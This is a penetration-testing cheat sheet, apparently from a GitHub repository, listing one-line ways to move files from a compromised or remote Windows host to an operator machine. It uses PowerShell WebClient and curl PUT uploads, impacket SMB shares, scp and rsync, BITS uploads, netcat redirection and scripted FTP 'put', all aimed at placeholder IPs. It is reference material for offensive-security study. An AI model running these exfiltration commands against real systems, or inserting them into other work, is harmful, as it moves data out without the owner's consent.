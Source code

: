 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', '\users\public\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T \users\public\demo.txt http://{REMOTE-IP}/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T '\users\public\demo.txt' http://{REMOTE-IP}/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------

</br>

USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', '\users\public\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt','\users\public\demo.txt')"
------------------------------------------------------------------------------------------------------------------

</br>

USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password pass . -smb2support


**SMB CLIENT -**

**To create authenticated session**

    net use \\{LOCAL-IP} /u:"user" "pass"

**Web Content Upload**
    
    copy \users\public\demo.txt \\{LOCAL-IP}\share\
------------------------------------------------------------------------------------------------------------------

</br>

USING SSH - 
------------------------------------------------------------------------------------------------------------------

**SCP-**

**Copy a file from Remote PC to Local PC**
    
    scp user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    scp -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    scp -i id_rsa -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**RSYNC-**

**Copy a file from Remote PC to Local PC**
    
    rsync -av user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    rsync -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    rsync -av --port 22 -e 'ssh -i id_rsa' -r user@{REMOTE-IP}:/users/public/demo/ /tmp/

------------------------------------------------------------------------------------------------------------------

</br>

USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------

</br>

USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Upload a single file from Remote PC to Local PC**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source '\users\public\demo.txt' -Destination 'http://{LOCAL-IP}/demo.txt' -TransferType Upload"

**Upload multiple files from Remote PC to Local PC**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'c:\users\public\demo1.txt', 'c:\users\public\demo2.txt' -Destination 'http://{LOCAL-IP}/demo1.txt', 'http://{LOCAL-IP}/demo2.txt' -TransferType Upload"

**Transfer single file from one directory to another directory**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source '\users\public\demo.txt' -Destination '\users\public\' -TransferType Upload"
------------------------------------------------------------------------------------------------------------------

</br>

USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**Run NC Server on Local PC**
    
    nc.exe -nlvp 443 > demo.txt

**Run NC Client on Remote PC**
    
    nc -v {LOCAL-IP} 443 < demo.txt
                OR
    type demo.txt | nc.exe -v {LOCAL-IP} 443
------------------------------------------------------------------------------------------------------------------

</br>

USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open {LOCAL-IP} 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt

**FTP Authenticated**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo user test>> file.txt
    echo test>> file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------
